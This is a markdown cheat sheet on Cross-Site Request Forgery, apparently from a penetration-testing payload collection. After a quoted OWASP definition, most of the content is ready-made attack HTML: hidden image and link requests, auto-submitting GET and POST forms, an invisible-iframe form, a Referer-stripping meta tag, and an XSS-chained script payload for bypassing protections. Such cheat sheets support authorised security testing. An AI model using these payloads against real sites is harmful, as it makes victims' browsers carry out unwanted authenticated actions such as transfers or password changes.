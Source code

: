 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

## GET Requests Exploits

### Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

### Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

```
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

## POST Requests Exploits

### Visible Form
```html
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

### Invisible Form
```html
<html> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
	</body>
	<script>document.getElementById("pwn-form").submit()</script>
</html>

```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy ().


## Protection Bypass

### Referer Header Check Bypass

* To send a request with no `Referer` header 

`<meta name="referrer" content="no-referrer">`

* Chain CSRF vulnerability with XSS

`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`